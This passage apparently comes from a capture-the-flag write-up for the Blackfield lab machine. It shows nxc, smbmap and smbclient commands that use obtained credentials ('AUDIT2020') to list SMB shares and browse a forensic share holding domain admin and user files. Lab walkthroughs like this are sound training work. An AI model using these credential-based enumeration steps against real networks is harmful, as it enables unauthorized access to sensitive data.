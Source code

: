 ```bash
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on blackfield.htb...
[-] Skipping mssql — port 1433 is closed
```

According to the output above, with these creds we can login to `SMB` , `LDAP` and `RPC`

lets try `SMB` first

## SMB Enumeration with creds as `AUDIT2020`

```bash
nxc smb blackfield.htb  -u 'AUDIT2020' -p 'Thebestpass0!' --shares
#or
smbmap -H blackfield.htb -u 'AUDIT2020' -p 'Thebestpass0!'
```

```bash
[+] IP: blackfield.htb:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

nice! this user seems to have `READ` permission over the `forensic` share, to which we did not have such permission previously. Lets connect with smbclient to start exploring the share

```bash
smbclient //blackfield.htb/forensic -U audit2020%Thebestpass0!
```

```bash
smb: \\> ls
  .                                   D        0  Sun Feb 23 07:03:16 2020
  ..                                  D        0  Sun Feb 23 07:03:16 2020
  commands_output                     D        0  Sun Feb 23 12:14:37 2020
  memory_analysis                     D        0  Thu May 28 15:28:33 2020
  tools                               D        0  Sun Feb 23 07:39:08 2020

		5102079 blocks of size 4096. 1687971 blocks available
```

lets inspect `commands_output`

```bash
smb: \\> cd commands_output\\
smb: \\commands_output\\> ls
  .                                   D        0  Sun Feb 23 12:14:37 2020
  ..                                  D        0  Sun Feb 23 12:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 07:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 06:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 16:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 06:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 06:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 06:51:01 2020
  route.txt                           A     3976  Sun Feb 23 06:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 06:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 06:54:29 2020

		5102079 blocks of size 4096. 1687971 blocks available
```
